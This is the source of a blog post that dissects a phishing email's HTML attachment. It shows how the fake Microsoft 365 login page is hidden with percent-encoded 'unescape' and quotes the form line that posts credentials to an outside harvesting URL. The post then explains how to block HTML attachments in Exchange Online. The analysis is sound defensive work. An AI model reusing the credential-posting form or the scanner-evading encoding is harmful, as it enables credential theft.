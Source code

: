 ```yaml
---
title: "It's (Past) Time to Block HTML Attachments in Email"
date: 2022-01-17T11:23:30-07:00
categories: ["Infrastructure", "My System"]
description:
  The risks of allowing HTML attachments in email far outweigh the benefits.
images:
  [
    "https://assets.technologytoolbox.com/screenshots/C1/8907CF0C9E29B87871FC79136C5810D43EB67EC1.png",
  ]
tags: ["Infrastructure", "Microsoft 365", "My System", "Security"]
---
```


This morning I received yet another phishing email with a malicious HTML
attachment:

{{< figure
  src="https://assets.technologytoolbox.com/screenshots/80/93675973B2017528FD670B724A4566314A06AA80.png"
  class="screenshot" height="832" width="1435"
  caption="Figure 1: Phishing email with malicious HTML attachment" >}}

[See full-sized image.](https://assets.technologytoolbox.com/screenshots/80/93675973B2017528FD670B724A4566314A06AA80.png)

As you can see from the screenshot, the email was sent to the **Accounts
Receivable** group at my company. This is actually the second time I received an
email like this from the **nexgensurveying.com** domain (the first being about a
month ago). Apparently the senders thought if they didn't trick me the first
time around, why not try again?

Clicking the HTML attachment in Outlook shows the following warning:

{{< figure
  src="https://assets.technologytoolbox.com/screenshots/FD/9B4A7408D98A998447392D781022496E305092FD.png"
  class="screenshot" height="214" width="383"
  caption="Figure 2: Warning about opening a mail attachment" >}}

Suppose someone simply clicks the **Open** button without giving it any thought.
In this particular case, this results in a browser opening the login page shown
below:

{{< figure
  src="https://assets.technologytoolbox.com/screenshots/96/20DCA266775344D835DB3EB50EC984B0B445DC96.png"
  class="screenshot" height="832" width="1434"
  caption="Figure 3: Phishing login page" >}}

[See full-sized image.](https://assets.technologytoolbox.com/screenshots/96/20DCA266775344D835DB3EB50EC984B0B445DC96.png)

This looks a lot like the original login page for Office 365 and Active
Directory Federation Services (ADFS).

The source of the malicious HTML attachment is illustrated below:

{{< figure
  src="https://assets.technologytoolbox.com/screenshots/DE/81ACE76BE282F5FD668F000D1FB5D778280779DE.png"
  class="screenshot" height="245" width="1434"
  caption="Figure 4: HTML source for phishing login page" >}}

[See full-sized image.](https://assets.technologytoolbox.com/screenshots/DE/81ACE76BE282F5FD668F000D1FB5D778280779DE.png)

My guess is the senders are using the JavaScript `unescape` function to hide
their malicious content from email scanners (that might otherwise remove the
attachment or block the message altogether).

> **Note:** The content uses the `unescape` function but is actually URL-encoded
> data. For example, `%3C%21%44%4F%43%54%59%50%45%20%68%74%6D%6C%3E` is
> `<!DOCTYPE html>` using
> [percent-encoding](https://en.wikipedia.org/wiki/Percent-encoding).

Decoding the contents of the string passed to the `unescape` function (using
something like
[FreeFormatter.com](https://www.freeformatter.com/url-encoder.html)), shows the
actual HTML rendered in the login page:

{{< figure
  src="https://assets.technologytoolbox.com/screenshots/57/B8265772B3EB2DBA18D4D5E95E3B10A830DCCF57.png"
  class="screenshot" height="1040" width="1920"
  caption="Figure 5: Decoded HTML source for phishing login page" >}}

[See full-sized image.](https://assets.technologytoolbox.com/screenshots/57/B8265772B3EB2DBA18D4D5E95E3B10A830DCCF57.png)

"Dissecting" the decoded HTML source a little bit reveals the following:

```HTML
<form method="post" ... action="https://discovertheport.com.au/gantz/oracle.php">
  ...
</form>
```

Suppose someone is tricked into typing his or her credentials into the phishing
login page and clicks the **Sign in** button. Well then...ouch...those
credentials just got passed to
**https://discovertheport.com.au/gantz/oracle.php** -- which I can only assume
stores them for subsequent nefarious purposes.

What can we do about this (aside from trying to educate people not to fall for
phishing schemes like this)? I suggest configuring your email service to block
HTML attachments altogether. In my mind, we live in a time when an HTML
attachment is just as dangerous as an executable file or a VBScript file (both
of which, I imagine, are blocked _by default_ in all modern email services).

Like thousands of other organizations around the world, Technology Toolbox uses
Microsoft 365 for corporate email -- and while I wish Microsoft 365 were
configured by default to block HTML attachments, unfortunately that currently is
not the case.

Fortunately, the process for configuring Exchange Online (i.e. the email service
used for Microsoft 365) to block HTML attachments is very easy.

To create a transport rule to block messages with HTML attachments in Microsoft
365, follow these steps:

1. Sign in to the [Microsoft 365 portal](https://portal.office.com/).

1. Select **Admin**, and then select **Exchange**.

1. In the left navigation pane, select **Mail flow**, and then select **Rules**.

1. In the toolbar, select the plus (+) button, and then select **Create a new
   rule...**

1. In the **new rule** window:

   1. Select **More options...**

   1. In the **Name** box, type **Block messages with HTML attachments**.

   1. Select the **\*Apply this rule if...** drop-down list, point to **Any
      attachment...**, and then select **file extension includes these words**.

   1. In the **specify words or phrases** window:

      1. Type **htm** and then select the plus symbol (+) to add the file name
         extension to the list.
      1. Type **html** and then select the plus symbol (+) to add the file name
         extension to the list.
      1. When the list is completed, select **OK**.

   1. Select the **\*Do the following...** drop-down list, point to **Block the
      message...**, and then select **reject the message and include an
      explanation**.

   1. Select **Enter text...** to inform users who will receive the non-delivery
      report (NDR) of the reason that mail delivery failed.

   1. In the **specify rejection reason** window, type **HTML attachments are
      not allowed** and then select **OK**.

   1. Ensure the **Audit this rule with severity level:** checkbox is selected
      and select **Low** from the drop-down list.

   1. Ensure the **Enforce** mode is selected for the rule.

   1. Select **Save**.

After creating the mail flow rule, I encourage you to test it to ensure it works
as expected. You should receive an "undeliverable" message similar to the
following:

{{< figure
  src="https://assets.technologytoolbox.com/screenshots/C1/8907CF0C9E29B87871FC79136C5810D43EB67EC1.png"
  class="screenshot" height="1040" width="1920"
  caption="Figure 6: Undeliverable message when sending email with HTML attachment" >}}

[See full-sized image.](https://assets.technologytoolbox.com/screenshots/C1/8907CF0C9E29B87871FC79136C5810D43EB67EC1.png)

### References

{{< reference title="How to block a message from being sent or received based on the file name extension of the attachment in Microsoft 365" linkHref="https://docs.microsoft.com/en-us/exchange/troubleshoot/email-delivery/how-to-block-message-from-being-sent-or-received" >}}
